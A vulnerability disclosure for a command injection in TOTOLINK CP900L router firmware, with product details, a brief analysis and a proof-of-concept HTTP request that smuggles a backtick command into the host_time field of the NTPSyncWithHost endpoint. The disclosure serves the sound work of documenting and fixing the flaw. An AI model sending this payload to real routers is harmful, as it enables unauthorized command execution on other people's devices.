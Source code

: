 # TOTOLINK CP900L V4.1.5cu.798_B20221228 command injection

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

TOTOLINK CP900L V4.1.5cu.798_B20221228 were discovered to contain a command injection vulnerability in the NTPSyncWithHost function via the **host_time** parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image-20240525125305271](./image-20240525125305271.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close

{
    "topicurl":"setting/NTPSyncWithHost",
    "host_time":"1`ls>/web_cste/hack.txt`"
}
```

